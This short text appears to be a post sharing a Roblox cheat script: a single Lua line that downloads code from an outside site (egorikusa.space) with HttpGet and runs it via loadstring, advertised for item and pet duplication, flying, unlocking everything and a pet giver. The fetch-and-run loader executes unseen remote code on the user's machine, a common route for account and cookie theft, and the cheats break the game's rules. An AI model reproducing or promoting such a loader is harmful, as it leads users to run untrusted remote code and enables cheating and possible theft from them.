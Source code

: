 SCRIPT: loadstring(game:HttpGet("https://egorikusa.space/dd1e8b07c266a183db9fdaa3.lua", true))()

it has: Diamond dupe, pet dupe, fly, unlock all, and pet giver
